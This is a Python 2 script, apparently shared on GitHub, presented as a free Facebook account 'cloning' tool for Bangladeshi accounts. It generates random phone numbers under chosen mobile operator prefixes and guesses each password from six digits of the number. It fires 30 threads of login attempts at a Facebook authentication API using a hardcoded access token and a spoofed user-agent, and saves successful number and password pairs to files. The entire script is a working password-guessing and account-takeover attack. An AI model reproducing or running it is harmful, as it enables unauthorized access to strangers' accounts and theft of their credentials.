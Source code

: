 #Tools Created By MD Badiuzzaman
#Toxic Zaman 
#The Decoder Of Bangladesh

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
os.system('clear')
print
 
print
 
print("""

\033[0;94m ######   ##   #    #   ##   #    # 
\033[0;94m #   #  #  ##  ##  #  #  ##   # 
\033[0;96m #   #    # # ## # #    # # #  # 
\033[0;96m #    ###### #    # ###### #  # # 
\033[0;96m #     #    # #    # #    # #   ## 
 ###### #    # #    # #    # #    #  
""")

print("\033[0;91mThis Tool's Free By ZAMAN ")

psb('\x1b[1;92mBANGLADESH 6 DIGIT CLONING START PLEASE WAIT .....')
for n in range(90000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()
 
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
 
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')
 
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
    print
    os.sys.exit()
 
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
 
def t():
    time.sleep(1)
 
 
def cb():
    os.system('clear')
 
logo = """
                                                                      
\033[0;94m ######   ##   #    #   ##   #    # 
\033[0;94m #   #  #  ##  ##  #  #  ##   # 
\033[0;96m #   #    # # ## # #    # # #  # 
\033[0;96m #    ###### #    # ###### #  # # 
\033[0;96m #     #    # #    # #    # #   ## 
 ###### #    # #    # #    # #    # 
"""

back = 0
successful = []
cpb = []
oks = []
id = []
 
def menu():
    os.system('clear')
    print logo
    print ''
    print '\033[0;93mAUTHOR   : ZAMAN'
    print '\033[0;94mFACEBOOK : MD Badiuzzaman'
    print '\033[0;96mGITHUB   : Zaman04'
    print ''
    print '\033[0;90mONLY BANGLADESHI ACCOUNTS ARE AVAILABLE'
    print '\033[0;91m'
    print 50* '-'
    print '\033[0;92m[1]  \x1b[1;93mGP'
    print '\033[0;95m[2]  \x1b[1;95mRobi'
    print '\033[0;94m[3]  \x1b[1;94mAirtel'
    print '\033[0;92m[4]  \x1b[1;92mBanglalink'
    print '\033[0;96m[5]  \x1b[1;96mTeletalk'
    print '\033[0;90m[0]  \x1b[1;90mExit            '
    print '\033[0;91m'
    print 50 * '-'
    action()
 
 
def action():
    global cpb
    global oks
    bch = raw_input('\033[0;93m\n> ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '5':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '150,151, 152, 153, 154, 155, 156, 157, 158, 159'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '0':
        exb()
    else:
        print
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x96] Please wait, process is running ...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    psb(50 * '-')
    time.sleep(0.5)
    print
    50 * '-'
    print
 
    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
 
        try:
            result = k + c + user
            digi6 = result[8:14]
            pass1 = digi6
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[ZAMAN]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[ZAMAN-CP]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\x1b[1;92m \x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass
 
    p = ThreadPool(30)
    p.map(main, id)
    print
    50 * '-'
    print
    print
    '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 Snigdho.py')
 
 
if __name__ == '__main__':
    menu()

